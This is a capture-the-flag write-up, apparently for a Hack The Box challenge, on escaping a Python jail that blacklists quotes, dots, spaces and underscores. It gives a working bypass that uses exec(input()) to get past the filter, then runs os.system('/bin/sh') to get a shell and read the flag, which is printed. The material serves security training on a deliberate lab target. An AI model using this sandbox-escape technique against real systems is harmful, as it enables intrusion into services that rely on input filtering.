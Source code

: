 # Nehebkaus Trap
## Description
In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

### Difficulty: medium
---
Connecting to the nc link, we find that it's a trap:
```
 nc 104.248.169.117 32684
    __
   {00}                                                                                                             
   \__/                                                                                                             
   /^/                                                                                                              
  ( (                                                                                                               
   \_\_____                                                                                                         
   (_______)                                                                                                        
  (_________()Ooo.                                                                                                  
                                                                                                                    
[ Nehebkau's Trap ]                                                                                                 
                                                                                                                    
You are trapped!                                                                                                    
Can you escape?
>
```

Various shell commands do not work, and we quickly find that several critical inputs are blacklisted, such as single and double quotes, or dots.
The snake is our first subtle hint, we are likely trapped in a python jail! There is a posting on [hacktricks that covers this type of problem](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes). Unfortunately, most of the suggestions will not work for us with restrictions on dot, quotes, space and even uderscores. We can, however, print the globals and locals:
```
> print(globals())                                                                                                  
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f37eeb47c10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctf/./jail.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'time': <module 'time' (built-in)>, 'BLACKLIST': ('.', '_', '/', '"', ';', ' ', "'", ','), 'Color': <class '__main__.Color'>, '_print': <function _print at 0x7f37eeba3d90>, 'banner': <function banner at 0x7f37eeae2c20>, 'loop': <function loop at 0x7f37eeae2cb0>, '_': 2}

> print(locals())                                                                                                   
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
{'banned': [], 'inp': 'print(locals())'}
```

If it wasn't found through trial and error yet, we can see the full list of blacklisted characters here:
```
BLACKLIST': ('.', '_', '/', '"', ';', ' ', "'", ',')
```
Under `globals` we find builtins is present. We must rely on these builtin functions to escape the jail and find our flag. A list of builtin functions can be found [here](https://docs.python.org/3/library/functions.html). Input() caught my eye, as perhaps we can supply stdin that might not be checked through the blacklist:
```
> a=input()                                                                                                         
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
Error: invalid syntax (<string>, line 1)
```
Unfortunately, I received an error before being able to input anything for variable declaration. However, trying `input()` on its own seems to work as I expected:
```
> input()                                                                                                           
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
'"'"Test aWE$%                                                                                                      
>
```
Here we see no blacklist notice despite putting several blacklisted characters. Perhaps we can use input in a different way? Next I tried `input` in combination with `exec`:

```
> exec(input())                                                                                                     
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
print("This is a test.")                                                                                            
This is a test.
>
```
The print worked, and again no notice on blacklisted functions. From here there are several ways to read a flag. Since I wasn't sure what the flag was named or where it might be, I decided to create a shell session using a [gtfobins](https://gtfobins.github.io/) payload:
```
> exec(input())                                                                                                     
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
import os; os.system("/bin/sh")

whoami
ctf  

ls                                                                                                                  
flag.txt                                                                                                            
jail.py 

cat flag.txt                                                                                                        
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}
```
`HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}`
